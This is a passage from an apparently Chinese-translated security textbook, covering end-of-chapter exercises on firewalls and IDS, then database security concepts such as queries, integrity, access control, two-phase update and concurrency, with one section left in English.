FTP 协议相对容易代理；例如，防火墙决定外部人员是否应该能够访问文件系统中的特定目录，并向内部文件管理器发出相应命令，或向外部人员作出否定响应。其他协议则无法代理。列出三种代理起来极其困难或不可能的协议。解释你的答案。

### 45. 审计日志内容差异

审计日志的内容在筛选路由器与应用代理防火墙之间会有何不同？

### 46. 部署多个防火墙的理由

举出一个组织可能希望在单个网络上部署两个或更多防火墙的理由。

### 47. 防火墙被攻破的稀缺性

防火墙是入侵者的攻击目标。为什么防火墙被攻破的情况很少？

### 48. 蜜罐前是否应放置防火墙

网络管理员应该在蜜罐（见第 5 章）前面放置防火墙吗？为什么或为什么不？

### 49. 防火墙能否阻止服务器脚本攻击

防火墙能否阻止使用服务器脚本的攻击，例如用户可以更改电子商务网站提供的商品价格的攻击？为什么或为什么不？

### 50. 隐身模式 IDS 的独立网络需求

为什么隐身模式的 IDS 需要一个单独的网络来传送警报和接受管理命令？

### 51. 自适应 IDS 的优缺点

一种形式的 IDS 启动运行时会对每个动作生成警报。随着时间的推移，管理员调整 IDS 的设置，使常见的、良性的活动不产生警报。这种 IDS 设计的优缺点是什么？

### 52. 加密邮件的已读验证

加密邮件能否向发件人提供验证，证明收件人已阅读邮件？为什么或为什么不？

### 53. 消息机密性与完整性的组合应用

消息机密性和消息完整性保护能否应用于同一条消息？为什么或为什么不？

### 54. 邮件程序自动应用保护的优缺点

邮件程序（如 Eudora 或 Outlook）在发件人和收件人之间自动应用和移除邮件保护，其优缺点是什么？

# 7. 数据库

---

本章内容：

- 数据库术语和概念
- 安全需求：C-I-A；可靠性，完整性类型
- 访问控制；敏感数据，泄露，推理，聚合
- 数据挖掘和大数据

---

保护数据是许多安全系统的核心，许多用户（人、程序或系统）依赖数据库管理系统（`DBMS`）来管理结构化数据的保护。因此，我们将本章专门用于数据库和数据库管理系统的安全性，作为应用安全如何为特定任务进行设计和实现的一个示例。

数据库对于许多企业和政府组织至关重要，存放着反映组织核心活动的数据。通常，当业务流程被重构以使其更有效并更贴合新的或修订后的目标时，最先接受仔细审查的系统之一就是支持业务流程的数据库集合。因此，数据库不仅仅是与软件相关的存储库。它们的组织和内容被视为必须受到严密保护的宝贵企业资产。

然而，数据库管理系统提供的保护效果好坏参半。随着时间的推移，我们对数据库安全问题的理解有所提高，并开发出了几种良好的控制措施。但仍有更多安全顾虑缺乏可用的控制措施。

我们首先简要总结数据库术语开始本章。然后考虑数据库管理系统的安全需求。在数据库背景下解释两个主要安全问题——完整性和保密性。我们继续本章，研究两个重要（但相关）的数据库安全问题：推理问题和多级安全问题。这两个问题都很复杂，没有现成的解决方案。然而，通过理解这些问题，我们能更敏锐地察觉减少数据潜在威胁的方法。最后，我们通过审视大数据收集和数据挖掘——一种从一个或多个数据库中推导模式的技术——来结束本章。数据挖掘涉及本章提出的许多安全问题。

## 7.1 数据库简介

我们首先描述数据库并定义与其使用相关的术语。我们引用所谓关系型数据库的示例，因为它是最广泛使用的类型之一。然而，此处描述的概念适用于任何类型的数据库。我们首先定义基本概念，然后用它们来讨论安全顾虑。

### 数据库的概念

**数据库**是*数据*的集合以及一组组织数据的*规则*，这些规则通过指定数据间的特定关系来组织数据。通过这些规则，用户描述数据的*逻辑*格式。数据项存储在文件中，但文件的精确*物理*格式与用户无关。**数据库管理员**是定义组织数据规则并控制谁应有权访问数据哪些部分的人员。用户通过一个称为**数据库管理器**或**数据库管理系统（`DBMS`）**的程序与数据库交互，非正式地称为**前端**。

### 数据库的组成部分

数据库文件由**记录**组成，每条记录包含一组相关数据。如表 7-1 所示，姓名地址文件中的一条记录包含一个姓名和地址。每条记录包含**字段**或**元素**，即基本数据项本身。姓名地址记录中的字段为 `NAME`、`ADDRESS`、`CITY`、`STATE` 和 `ZIP`（其中 `ZIP` 是美国邮政编码）。该数据库可视为一个二维表，其中记录为一行，记录的每个字段为表的一个元素。

> **数据库是表的集合，每个表包含具有一个或多个字段或元素的记录。**

并非每个数据库都易于表示为单个紧凑的表。图 7-1 中的数据库在逻辑上由三个可能用途不同的文件组成。这三个文件可以表示为一个大表，但这种描述可能无法提高数据的效用或访问性。


**图 7-1** 多个相关表的数据库

数据库的逻辑结构称为**模式**。特定用户可能只能访问数据库的一部分，称为**子模式**。图 7-1 中数据库的总体模式详见表 7-2。图中的三个独立块是子模式的示例，尽管该数据库还可以定义其他子模式。我们可以使用模式和子模式仅向用户展示他们希望或需要看到的元素。例如，如果表 7-1 代表公司的员工，左下角的子模式可以列出员工姓名，而不泄露家庭住址等个人信息。


**表 7-1** 数据库示例

#### 数据库规则与安全要求

数据库的规则通过名称标识列。每一列的名称称为数据库的**属性**。**关系**是一组列的集合。例如，使用表 7-2 中的数据库，我们可以看到 `NAME–ZIP` 是一个关系，它由 `NAME` 和 `ZIP` 列组成，如表 7-3 所示。关系指定了相关数据值的簇，这与“母亲”关系指定人类配对之间的关系非常相似。在该示例中，每个簇包含一对元素：一个 `NAME` 和一个 `ZIP`。其他关系可以包含更多列，因此每个簇可能是一个三元组、四元组或 *n* 元组（对于某个值 *n*）。


**表 7-2** 图 7-1 中数据库的模式

***

**数据库中的关系显示了表中数据之间的某种联系。**

***


**表 7-3** 数据库中的关系

#### 查询

用户通过向 `DBMS` 发出命令与数据库管理系统交互，这些命令用于检索、修改、添加或删除数据库的字段和记录。一个命令称为**查询**。数据库管理系统对查询有精确的语法规则。大多数查询语言使用类英语的表示法，许多基于 `SQL`（一种最初由 IBM 开发的结构化查询语言）。本章中的示例查询采用类似英语句子的写法，以便于理解。例如，查询

```
SELECT NAME = 'ADAMS'
```

检索 `NAME` 字段值为 `ADAMS` 的所有记录。

执行查询的结果是一个子模式。形成数据库子模式的一种方法是选择满足特定条件的记录。例如，我们可以选择 `ZIP=43210` 的记录，生成如表 7-4 所示的结果。


**表 7-4** 选择查询的结果

也可以使用更复杂的选择标准，包含逻辑运算符如 *and* (`∧`) 和 *or* (`∨`)，以及比较运算符如 *less than* (`<`)。选择查询的一个示例是：

```
SELECT (ZIP='43210') ∧ (NAME='ADAMS')
```

在选择了记录之后，我们可以将这些记录**投影**到一个或多个属性上。选择操作从数据库中识别特定的行，而投影操作从这些记录的特定字段（列）中提取值。选择-投影操作的结果是选定记录中指定属性的值的集合。例如，我们可以选择满足 `ZIP=43210` 条件的记录，并将结果投影到 `NAME` 和 `FIRST` 属性上，如表 7-5 所示。结果是地址邮政编码为 43210 的人的名和姓的列表。


**表 7-5** 选择-投影查询的结果

请注意，我们不必投影到选择所依据的相同属性上。例如，我们可以使用 `ZIP` 和 `NAME` 构建查询，但将结果投影到 `FIRST` 上：

```
SHOW FIRST WHERE (ZIP='43210') ∧ (NAME='ADAMS')
```

结果将是姓氏为 `ADAMS` 且 `ZIP` 为 `43210` 的人的名字列表。

我们还可以通过**连接**查询，在公共元素上合并两个子模式。该操作的结果是一个子模式，其记录在公共元素上具有相同的值。例如，图 7-2 显示子模式 `NAME–ZIP` 和子模式 `ZIP–AIRPORT` 可以在公共字段 `ZIP` 上连接，生成子模式 `NAME–AIRPORT`。


**图 7-2** 选择-投影-连接查询的结果

***

**用户通过查询提取数据。**

***

#### 使用数据库的优势

数据库背后的逻辑思想是：数据库是数据的单一集合，存储并维护在一个中心位置，许多人们可根据需要访问它。然而，实际实现可能涉及其他物理存储安排或访问方式。优秀数据库的本质在于用户无需感知物理安排；他们看到的只是统一的逻辑安排。因此，与简单的文件系统相比，数据库提供了许多优势：

*   **共享访问**，使许多用户可以使用一个公共的、集中的数据集
*   **受控访问**，确保只有授权用户才能查看或修改数据值
*   **最小冗余**，避免单个用户必须收集和维护自己的数据集
*   **数据一致性**，确保对数据值的更改影响该数据值的所有用户
*   **数据完整性**，保护数据值免受意外或恶意的不良更改

你应该注意到列表中有许多熟悉的安全概念。虽然安全只是使用数据库的几个动机之一，但一些用户欣赏其提供的一定程度的安全访问。

***

**数据库支持对单一数据存储库的受控共享访问。**

***

`DBMS` 的设计旨在高效地提供这些优势。然而，目标之间经常会发生冲突。特别是，正如我们将看到的，安全利益可能与性能发生冲突。这种冲突并不令人惊讶，因为为实施安全而采取的措施往往会增加计算系统的规模或复杂性。但令人惊讶的是，安全利益还可能通过限制某些原本看似无害的查询，降低系统向用户提供数据的能力。

## 7.2 数据库的安全需求

数据库系统的基本安全需求与我们学习过的其他计算系统并无不同。基本问题——访问控制、排除虚假数据、用户认证和可靠性——迄今为止已在本书的许多语境中出现。以下是数据库安全的需求列表。

*   **物理数据库完整性**。 数据库的数据不受物理问题（如电源故障）影响，且如果因灾难导致数据库被破坏，可以重建数据库。
*   **逻辑数据库完整性**。 保持数据库的结构。具有逻辑完整性的数据库，例如，修改一个字段的值不会影响其他字段。
*   **元素完整性**。 每个元素中包含的数据是准确的。
*   **可审计性**。 可以追踪谁或什么访问（或修改）了数据库中的元素。
*   **访问控制**。 用户只能访问授权数据，且不同用户可被限制为不同的访问模式（如读或写）。
*   **用户认证**。 每个用户都被明确识别，既用于审计跟踪，也用于访问特定数据的权限控制。
*   **可用性**。 用户可以总体上访问数据库，并能访问其被授权的所有数据。

我们简要考察这些需求中的每一项。

### 数据库的完整性

如果数据库要作为数据的中心存储库，用户必须能够信任数据值的准确性。这意味着数据库管理员必须确保更新仅由授权个人执行。这也意味着必须保护数据免受损坏，无论是来自外部非法程序行为，还是来自火灾或电源故障等外部力量。两种情况会影响数据库的完整性：整个数据库受损（例如，其存储介质损坏时），或单个数据项不可读。

### 数据库的完整性

数据库整体的完整性是 `DBMS`、操作系统以及（人工）计算系统管理员的责任。从操作系统和计算系统管理员的角度来看，数据库和 `DBMS` 分别是文件和程序。因此，保护数据库整体的一种方法是定期备份系统上的所有文件。这些定期备份可以作为防止灾难性故障的充分控制措施。

有时管理员需要能够将数据库重建到故障发生的那个时间点。例如，当突然断电时，银行的客户可能正在进行交易，或者学生可能正在网上选课。在这些情况下，所有者希望能够将系统恢复到一个稳定点，而不必强制用户重做他们最近完成的交易。


为了处理这些情况，DBMS 必须维护事务日志。例如，假设银行系统的设计是每处理一笔交易就在日志（电子版、纸质版或两者兼有）中生成一条消息。如果发生系统故障，系统可以通过恢复数据库的备份副本，并从日志中重新处理所有后续交易，从而获得准确的账户余额。

## 元素完整性

数据库**元素**的**完整性**是指其正确性或准确性。归根结底，授权用户负责在数据库中录入正确的数据。然而，用户和程序在收集数据、计算结果和录入数值时会犯错误。因此，DBMS 有时会采取特殊措施，帮助在错误发生时捕获错误，并在错误插入后进行纠正。

**数据库实现了数据库本身、其结构及其各个元素的完整性。**

这种纠正措施可以通过三种方式实施：字段检查、访问控制和变更日志。

首先，DBMS 可以应用**字段检查**，即测试某位置数值是否适当的活动。某字段可能被要求必须为数字、大写字母或一组可接受字符中的某一个。该检查确保数值落在指定范围内，或不大于其他两个字段数值之和。这些检查可在数据录入时防止简单错误。（侧边栏 7-1 演示了元素完整性的重要性。）

### 侧边栏 7-1 元素完整性故障导致网络瘫痪

Crocker 和 Bernstein [CRO89] 研究了当时称为 ARPANET（即当今互联网的前身）的灾难性故障。有几次故障源于用于指导网络流量的路由表问题。

1971 年的一次错误被称为“黑洞”。硬件故障导致某节点宣称它是通往网络中所有其他节点的最佳路径。该节点将此声明发送给其他节点，错误的通告很快在整个网络中传播开来。该节点立即成为了网络的“黑洞”，因为所有流量都被路由到它那里，却永远无法到达真正的目的地。

ARPANET 使用的是简单的表，而非功能齐全的数据库管理系统，因此在新值被安装到分布式路由表之前，没有对其进行检查。如果有一个数据库，完整性检查软件本可以检查新分发值中的错误，并为人工审核发出标记。

第二种完整性措施由**访问控制**提供。为了理解原因，请设想没有数据库的情况。数据文件可能包含来自多个来源的数据，冗余数据可能存储在多个不同的地方。例如，学生的邮寄地址可能存储在校园内许多不同的文件中：教务处用于正式通信，餐饮服务处用于食堂特权，书店用于购物，财务援助处用于核算。实际上，学生甚至可能不知道每个独立办公室都存档了该地址。如果学生从一个住所搬到另一个住所，每个独立文件都需要更正。

没有数据库，你可以想象数据完整性面临的风险。首先，在某一时刻，一些数据文件可能显示旧地址（尚未更新），而另一些文件同时显示新地址（已更新）。其次，总有人可能录错数据字段，再次导致文件包含错误信息。第三，学生可能甚至不知道某些文件的存在，因此不知道通知文件所有者更新地址信息。数据库解决了这些问题。它们支持在一个中心源头收集和控制这些数据，确保学生和用户拥有正确的地址。

然而，集中化说起来容易做起来难。谁拥有这个共享的中心文件？谁被授权更新哪些元素？如果两个人应用了相互冲突的修改怎么办？如果修改按错误的顺序应用怎么办？如何检测重复记录？发现重复记录时采取什么行动？这些是必须由数据库管理员解决的策略问题。侧边栏 7-2 描述了如何在管理程序配置时解决这些问题；管理数据库变更也需要类似的正式流程。

### 侧边栏 7-2 配置管理与访问控制

软件工程师在管理大型计算机系统配置时必须解决访问控制问题。主要系统的代码及其随时间变化的修改实际上构成了一个数据库。在许多情况下，多个程序员同时对系统进行更改；配置管理数据库必须帮助确保存储的是正确且最新的更改。

版本和发布的激增可以通过三种主要方式加以控制。[PFL10a]

- **分离文件**：可以为每个不同的版本或发布保留单独的文件。例如，版本 1 适用于将所有数据存储在主存储器中的机器，版本 2 适用于必须将部分数据存放到磁盘的机器。假设公共功能在两个版本中相同，位于组件 `C[1]` 到 `C[k]` 中，但内存管理由组件 `M[1]` 负责版本 1，组件 `M[2]` 负责版本 2。如果要向内存管理例程添加新功能，保持两个版本都处于最新和正确状态可能很困难；从用户角度来看，结果必须相同。

- **增量文件**：将一个版本视为主版本，所有其他版本视为主版本的变体。数据库仅在一个称为增量文件的文件中记录差异。增量文件包含“应用”于主版本以将其转换为替代版本的命令。这种方法节省存储空间，但可能变得难以驾驭。

- **条件编译**：所有版本由单个文件处理，并使用条件语句确定哪些语句在何种条件下适用。在这种情况下，共享代码只出现一次，因此如果发现问题，只需一次修正。但该单个文件中的代码可能非常复杂且难以维护。

## 数据库完整性与访问控制

### 受控访问配置文件

在上述三种情况下，对配置文件的受控访问至关重要。两个修复不同问题的程序员有时需要对同一组件进行更改。如果他们不协调访问，第二个程序员可能会无意中撤销（甚至破坏）第一个程序员的更改，不仅导致初始问题复发，还会引入额外的问题。因此，文件通过多种方式进行控制，包括在一名程序员进行更改时锁定文件，以及由一组称为**配置控制委员会**的人员进行管理，他们确保未经适当检查和测试的更改文件不会被投入生产使用。Shari Lawrence Pfleeger 和 Joanne Atlee 在文献 [[PFL10a]](#bib01.html#bib_485) 中描述了这些技术。

### 变更日志

提供数据库完整性的第三种手段是维护数据库的**变更日志**。变更日志记录了对数据库所做的每一次更改；它同时包含原始值和修改后的值。数据库管理员可以利用此日志撤销任何错误的更改。例如，图书馆罚款可能被错误地记在 Charles W. Robertson 头上，而不是 Charles M. Robertson，导致 Charles W. Robertson 被标记为不具备参加校队运动的资格。发现错误后，数据库管理员从日志中获取 Charles W. 的原始资格值并更正数据库。

#### 可审计性

对于某些应用，管理员可能希望生成对数据库所有访问（读或写）的审计记录。此类记录有助于维护数据库的完整性，或者至少能在事后发现谁在何时影响了什么值。第二个优势（稍后将看到）是用户可以增量式地访问受保护数据；即单次访问不泄露受保护数据，但一组连续的访问放在一起查看就会泄露数据，这很像在侦探小说中发现线索。在这种情况下，审计跟踪可以识别用户已获得哪些线索，以指导是否告知用户更多信息。

正如我们在 第 2 章 中指出的，粒度可能成为审计的障碍。操作系统中被审计的事件是诸如 `open file` 或 `call procedure` 之类的动作；它们很少像 `write record 3` 或 `execute instruction I` 那样具体。为了有助于维护完整性，数据库审计跟踪应包括记录级、字段级甚至元素级的访问。这种细节对于大多数数据库应用来说是难以承受的。

此外，数据库管理系统可能会访问一条记录但不向用户报告数据，例如用户执行 `select` 操作时。例如，宿舍辅导员可能想要所有不及格学生的数量，数据库管理系统报告为 462。为了得到这个数字，系统必须检查所有学生记录并标记成绩不及格的记录，它代表已适当记录在日志中接收数据的辅导员执行了此查找。因此，从某种意义上说，辅导员访问了所有那些学生成绩，尽管从数字 462 中辅导员无法确定任何个别学生的成绩。（在不将接收到的数据传输给用户的情况下访问记录或元素称为**透传问题**。）因此，直接访问的所有记录的日志既可能高估也可能低估用户实际获知的信息。该问题比我们在此描述的更为微妙，我们将在本章后面探讨一些泄露的复杂性。

## 访问控制

数据库通常按用户访问权限进行逻辑分离。例如，所有用户可被授予访问通用数据的权限，但只有人事部门可获取薪资数据，只有市场部门可获取销售数据。数据库之所以有用，是因为它们集中了数据的存储和维护。有限访问既是这种集中化的责任，也是其益处。

数据库管理员指定谁应被允许访问哪些数据，粒度可达视图、关系、字段、记录甚至元素级别。`DBMS` 必须强制执行此策略，授予对所有指定数据的访问权，或在禁止时拒绝访问。此外，访问模式可以有多种。用户或程序可能拥有读取、更改、删除或追加值的权利，添加或删除整个字段或记录，甚至重组整个数据库。

表面上看，数据库的访问控制似乎类似于操作系统或计算系统中任何其他组件的访问控制。然而，数据库问题更为复杂，正如我们在本章中将看到的。操作系统对象（如文件）是无关的项，而记录、字段和元素是相关的。虽然用户通过读取其他文件可能无法确定一个文件的内容，但用户可能仅通过读取其他数据元素就能确定某个数据元素。从其他数据获取数据值的问题称为**推理**，我们将在本章后面深入探讨。

重要的是要注意，你可以通过推理访问数据，而无需直接访问安全对象本身。限制推理可能意味着禁止某些路径以防止可能的推理。然而，为控制推理而限制访问也会限制那些无意进行未授权值访问的用户的查询。此外，尝试检查请求的访问是否存在不可接受的推理可能会实际降低 `DBMS` 的性能。

最后，操作系统对象和数据库对象在大小或粒度上有所不同。操作系统可以轻松控制对文件的访问，正如我们在 第 5 章 中所解释的。然而，包含数百个文件的访问控制列表比包含数百个文件（每个文件可能有一百个字段）的数据库的访问控制列表更容易实现。大小影响处理效率。操作系统通常不会“深入”文件内部以控制对文件内项目的访问。

**数据库管理系统实现自己的访问控制，其粒度比操作系统处理的更细。**

## 用户认证

`DBMS` 可以要求严格的用户认证。例如，`DBMS` 可能坚持要求用户同时通过特定密码和时间段检查。这种认证补充了操作系统执行的认证。通常，`DBMS` 作为应用程序运行在操作系统之上。这种系统设计意味着从 `DBMS` 到操作系统没有可信路径，因此 `DBMS` 必须对接收到的任何数据保持怀疑，包括来自操作系统的用户身份。因此，`DBMS` 被迫执行自己的认证。

## 可用性

`DBMS` 兼具程序和系统的特性。它是一个使用其他硬件和软件资源的程序，但对许多用户来说，它是唯一运行的应用程序。用户往往将 `DBMS` 视为理所当然，将其作为执行特定任务的必备工具。但当系统不可用时——忙于服务其他用户，或因维修升级而停机——用户会非常敏锐地察觉到 `DBMS` 的不可用性。例如，两个用户可能请求同一条记录，`DBMS` 必须进行仲裁；必然有一个用户会被拒绝访问一段时间。或者 `DBMS` 可能会扣留非受保护数据以避免泄露受保护数据，导致请求用户不满。我们将在本章后面更详细地探讨这些问题。这些问题导致对 `DBMS` 有很高的可用性要求。

### 完整性/机密性/可用性

The three aspects of computer security—integrity, confidentiality, and availability—are closely related to database management systems (DBMS). As we have described, integrity applies to each separate element of a database and to the database as a whole. Integrity is also a property of database structure (elements in one table correspond one-to-one with elements in another) and database relationship (records with the same unique identifier, called a key, are related). Thus, integrity is a primary concern in the design of database management systems. We look more closely at integrity issues in the next section.

Confidentiality is likewise a key issue for databases because databases are often used to implement controlled sharing of sensitive data. Access to data can be direct (you request a record and the database provides it) or indirect (you request some records and infer or intuit other data from those results). Controlling direct access uses the access control techniques we described in Chapter 2 and Chapter 5. However, indirect access is more difficult to control, and we examine it in more depth later in this chapter.

Finally, availability is important because it is the basis for the motivation to develop shared access to databases. However, availability conflicts with confidentiality. The last few sections of this chapter explore availability issues in environments where confidentiality is also important.

## 7.3 Reliability and Integrity

Databases integrate data from multiple sources, and users expect the DBMS to provide access to data in a reliable way. When software engineers say that software has **reliability**, they mean that the software runs for very long periods of time without failure. Users certainly expect a DBMS to be reliable because data is usually critical to business or organizational needs. In addition, users entrust data to a DBMS and reasonably expect it to protect the data from loss or corruption. Concern for reliability and integrity is a general security issue, but it is more pronounced in databases.

DBMSs protect against loss or corruption in several ways, which we study in this section. However, the controls we consider are not absolute: no control can prevent an authorized user from inadvertently entering an acceptable but incorrect value.

Concern for database reliability and integrity can be viewed from three dimensions:

*   **Database integrity:** Concern that the database as a whole is protected against damage, such as a disk drive failure or corruption of the master database index. These problems are addressed by operating system integrity controls and recovery procedures.

*   **Element integrity:** Concern that the value of a specific data element is written or changed only by authorized users. Proper access controls protect the database against corruption by unauthorized users.

*   **Element accuracy:** Concern that only correct values are written into a database element. Checks on element values help prevent the insertion of improper values. In addition, constraints can detect incorrect values.

### Operating System Protection Features


## 7.3 数据库完整性与并发控制

在 Chapter 5 中，我们讨论了操作系统为用户提供的保护。负责任的系统管理员会定期备份数据库文件以及其他用户文件。在正常执行期间，操作系统的标准访问控制机制可保护文件免受外部访问。最后，操作系统会将某些完整性检查作为正常 I/O 设备读写操作的一部分，对所有数据执行。这些控制为数据库提供了基本安全性，但数据库管理员必须对其进行增强。

### 两阶段更新

数据库管理器面临的一个严重问题是计算系统在数据修改期间发生故障。如果要修改的数据项是长字段或由多个属性组成的记录，则可能只有部分新数据已写入永久存储。因此，数据库文件将包含不正确的、部分更新的数据。即使此类错误易于检测（实际上并非如此），当多个字段被更新且没有单个字段显示明显错误时，会出现更微妙的问题。该问题的解决方案最早由 Lampson 和 Sturgis (LAM76) 提出，并被大多数 DBMS 采用，即使用**两阶段更新**。

#### 更新技术

在第一阶段（称为**意向阶段**），DBMS 收集执行更新所需的资源。它可能会收集数据、创建虚拟记录、打开文件、锁定其他用户、计算最终结果；简而言之，它会为更新做好一切准备，但不对数据库进行任何更改。第一阶段可以无限重复，因为它不采取永久性行动。如果系统在第一阶段执行期间发生故障，不会造成危害，因为所有这些步骤都可以在系统恢复处理后重新启动并重复。

第一阶段的最后一个事件称为**提交**，涉及向数据库写入**提交标志**。提交标志意味着 DBMS 已通过无法返回点：提交后，DBMS 开始进行永久性更改。

第二阶段进行永久性更改。在第二阶段，提交前的操作不能重复，但第二阶段的更新活动可根据需要重复多次。如果系统在第二阶段发生故障，数据库可能包含不完整数据，但系统可通过执行第二阶段的所有活动来修复这些数据。第二阶段完成后，数据库将再次处于一致状态。

#### 两阶段更新示例

考虑一个包含公司办公用品库存的数据库。公司中央库房存放纸张、笔、回形针等，各部门按需领用。公司批量采购以获取最优价格。每个部门都有办公用品预算，因此存在回收成本的回扣机制。此外，中央库房监控库存水平，以便在库存不足时订购新物资。

假设流程始于会计部门申请 50 盒回形针。假设库存有 107 盒，如果库存水平低于 100 盒则下新订单。库房收到申请单并执行以下步骤：

1. 库房检查数据库，验证库存中是否有 50 盒回形针。如果没有，则拒绝申请并结束事务。
2. 如果有库存，库房从数据库中的库存数量扣除 50（107 – 50 = 57）。
3. 库房从数据库中会计部门的办公用品预算扣除 50 盒回形针的成本。
4. 库房检查剩余库存水平（57）以确定是否低于重订点。因为低于，所以生成订购更多回形针的通知，并在数据库中将该物品标记为“订购中”。
5. 准备发货单，向会计部门发送 50 盒回形针。

所有这五个步骤必须按列出的顺序完成，数据库才准确且事务才能正确处理。

假设在处理这些步骤时发生故障。如果故障发生在第 1 步完成之前，不会造成危害，因为整个事务可以重新启动。然而，在第 2、3 和 4 步期间，会对数据库中的元素进行更改。如果此时发生故障，数据库中的值将处于不一致状态。更糟糕的是，事务无法重新处理，因为申请单会被扣减两次，或者部门会被收费两次，或者会准备两份发货单。

当使用两阶段提交时，会为关键数据点维护**影子值**。影子数据值在意向阶段计算并存储在本地，在提交阶段复制到实际数据库中。对于两阶段提交，数据库上的操作将按如下方式执行。

##### 意向阶段

1. 检查数据库中 `COMMIT-FLAG` 的值。如果已设置，则无法执行此阶段。停止或循环检查 `COMMIT-FLAG`，直到其未被设置。
2. 将库存回形针盒数与申请数进行比较；如果申请数多于库存数，则停止。
3. 计算 `TCLIPS = ONHAND – REQUISITION`。
4. 获取 `BUDGET`，即会计部门剩余的当前办公用品预算。计算 `TBUDGET = BUDGET – COST`，其中 `COST` 是 50 盒回形针的成本。
5. 检查 `TCLIPS` 是否低于重订点；如果是，设置 `TREORDER = TRUE`；否则设置 `TREORDER = FALSE`。

##### 提交阶段

1. 在数据库中设置 `COMMIT-FLAG`。
2. 将 `TCLIPS` 复制到数据库中的 `CLIPS`。
3. 将 `TBUDGET` 复制到数据库中的 `BUDGET`。
4. 将 `TREORDER` 复制到数据库中的 `REORDER`。
5. 准备向会计部门发送回形针交货通知。在日志中指示事务已完成。
6. 清除 `COMMIT-FLAG`。

通过这个示例可以看出，意向阶段的每一步仅依赖于来自数据库的未修改值和意向阶段之前的结果。每个以 `T` 开头的变量都是仅在此事务中使用的影子变量。意向阶段的步骤可以无限次重复，而不会影响数据库的完整性。

一旦 DBMS 开始提交阶段，它会写入一个 `COMMIT` 标志。设置此标志后，DBMS 将不执行意向阶段的任何步骤。意向步骤不能在提交后执行，因为数据库值会在提交阶段被修改。但请注意，提交阶段的步骤也可以无限次重复，同样不会对数据库中值的正确性产生负面影响。

如果系统在日志中写入“事务完成”消息后、但在清除数据库中的提交标志之前发生故障，则存在这个逻辑中的唯一剩余缺陷。通过回溯事务日志，查找提交标志仍被设置的已完成事务并清除这些标志，即可轻松解决此问题。

#### 冗余/内部一致性

许多 DBMS 维护额外信息以检测数据中的内部不一致。根据数据的重要性，额外信息范围从几个校验位到重复或影子字段不等。

##### 错误检测和纠正码

冗余的一种形式是错误检测和纠正码，例如奇偶校验位、海明码 [HAM50] 和循环冗余校验。（我们在第 2 章中介绍此类代码。）这些代码可应用于单个字段、记录或整个数据库。每次将数据项放入数据库时，都会计算并存储相应的校验码；每次检索数据项时，都会计算类似的校验码并与存储的值进行比较。如果值不相等，则向 DBMS 表明数据库中发生了错误。其中一些代码能指出错误位置；另一些则能精确显示正确值应是什么。提供的信息越多，存储代码所需的空间就越大。

##### 影子字段

整个属性或整个记录可以在数据库中复制。如果数据不可重现，则在检测到错误时，此第二份副本可提供即时替换。显然，冗余字段需要大量的存储空间。

##### 恢复

除了这些错误纠正过程外，DBMS 还可以维护用户访问（特别是更改）的日志。发生故障时，从备份副本重新加载数据库，然后从审计日志应用所有后续更改。

#### 并发/一致性

数据库系统通常是多用户系统。共享同一数据库的两个用户的访问必须受到约束，以免相互干扰。DBMS 执行简单的锁定。如果两个用户尝试读取同一数据项，则没有冲突，因为两者获得相同的值。

如果两个用户都试图修改相同的数据项，我们通常假设没有冲突，因为每个用户都知道要写入什么；要写入的值不依赖于数据项的先前值。然而，这种假设并不完全准确。

为了了解并发修改如何给我们带来麻烦，假设数据库包含某特定航班的座位预订。代理 A 为乘客 Mock 预订座位，提交查询以查找仍有哪些座位可用。代理知道 Mock 喜欢右侧过道座位，发现 5D、11D 和 14D 空闲。同时，代理 B 正试图为一起旅行的一家三口预订座位。响应查询时，数据库指示 8A–B–C 和 11D–E–F 是仅剩的两组三个相邻的未分配座位。代理 A 提交更新命令：

```
SELECT (SEAT-NO = '11D')
ASSIGN 'MOCK,E' TO PASSENGER-NAME
```

而代理 B 提交更新序列：

```
SELECT (SEAT-NO = '11D')
ASSIGN 'EDWARDS,S' TO PASSENGER-NAME
```

以及针对 11E 和 11F 座位的命令。于是两名乘客被预订到了同一个座位上（这至少会让人感到不舒服）。

两个代理的操作都很规范：各自查询空座位列表，从中选择一个座位，并更新数据库以显示座位分配给谁。这种情况的困难在于从数据库读取值到写入该值的修改之间的时间延迟。在延迟期间，另一个用户访问了相同的数据。

为解决此问题，DBMS 将整个查询-更新周期视为单个原子操作。现在代理的命令必须类似于“读取座位 11D 的 `PASSENGER-NAME` 当前值；如果是‘UNASSIGNED’，则将其修改为‘MOCK,E’（或‘EDWARDS,S’）。”读-修改周期必须作为不间断项完成，不允许任何其他用户访问座位 11D 的 `PASSENGER-NAME` 字段。第二个代理的预订请求要等到第一个代理的请求完成后才会被考虑；那时，`PASSENGER-NAME` 的值将不再是‘UNASSIGNED’。

并发访问中的最后一个问题是读-写。假设一个用户正在更新值，而第二个用户希望读取它。如果在写入进行时执行读取，读取者可能会收到仅部分更新的数据。因此，DBMS 会锁定任何读取请求，直到写入完成。

***

**数据库管理系统通过实现并发控制和排序，同时为多个用户提供服务。**

***

## 7.4 数据库泄露

正如我们在第 9 章所述，关于更多人的数据收集比以往任何时候都更加广泛。过去，单个公司、组织或政府办公室仅了解其客户或资助者的情况；组织间极少共享数据。且收集数据的场所种类和数量都很少。是的，我们预期办公室会保存我们的档案，但不期望其中包含我们访问的每一条街道、每一个收银台和每一个网站。当然，计算机不仅使海量数据的收集成为可能，也使其共享成为可能。

数据库包含思想、偏好、观点、活动（或其描述）、幻想、朋友和联系。人们可以从这些数据库中得出可能准确也可能错误的推断：Jamie 是你的朋友。Jamie 喜欢青蛙。因此，你也喜欢青蛙。显然，这是错误的逻辑，尽管它也可能是真的。在下一节中，我们将探讨人和计算机如何分析此类数据库中的数据关联，从而导致不可接受的数据泄露。

### 敏感数据

某些数据库包含所谓的**敏感数据**。作为一个工作定义，我们可以认为敏感数据是不应公开的数据。判断哪些数据项和字段属于敏感数据，既取决于具体的数据库，也取决于数据的潜在含义。显然，某些数据库（如公共图书馆目录）不包含敏感数据；而其他数据库（如国防相关数据库）则完全属于敏感数据。这两种情况——无敏感数据和全敏感数据——最容易处理，因为可以通过对整个数据库的访问控制来覆盖。用户要么是授权用户，要么不是。这些控制可由操作系统提供。

